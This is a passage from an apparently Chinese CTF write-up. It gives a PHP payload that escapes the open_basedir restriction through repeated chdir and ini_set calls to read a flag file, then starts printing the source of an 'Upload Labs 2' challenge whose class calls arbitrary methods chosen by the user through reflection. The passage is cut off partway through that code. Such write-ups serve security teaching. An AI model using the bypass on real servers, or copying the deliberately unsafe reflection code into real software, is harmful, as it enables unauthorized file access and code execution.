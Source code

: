 找到flag，读取flag

```
cmd=chdir('img');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');var_dump(file('/THis_Is_tHe_F14g'));
```

![](/pic/73.png)



## Upload Labs 2

给出了源码

```php
//admin.php
<?php
include 'config.php';

class Ad{

    public $cmd;

    public $clazz;
    public $func1;
    public $func2;
    public $func3;
    public $instance;
    public $arg1;
    public $arg2;
    public $arg3;

    function __construct($cmd, $clazz, $func1, $func2, $func3, $arg1, $arg2, $arg3){  //构造类时调用的方法

        $this->cmd = $cmd;

        $this->clazz = $clazz;
        $this->func1 = $func1;
        $this->func2 = $func2;
        $this->func3 = $func3;
        $this->arg1 = $arg1;
        $this->arg2 = $arg2;
        $this->arg3 = $arg3;
    }

    function check(){

        $reflect = new ReflectionClass($this->clazz);
        $this->instance = $reflect->newInstanceArgs();  //实例化clazz类

        $reflectionMethod = new ReflectionMethod($this->clazz, $this->func1);
        $reflectionMethod->invoke($this->instance, $this->arg1); //执行clazz中的func1方法，参数为arg1

        $reflectionMethod = new ReflectionMethod($this->clazz, $this->func2);
        $reflectionMethod->invoke($this->instance, $this->arg2);//执行clazz中的func2方法，参数为arg2

        $reflectionMethod = new ReflectionMethod($this->clazz, $this->func3);
```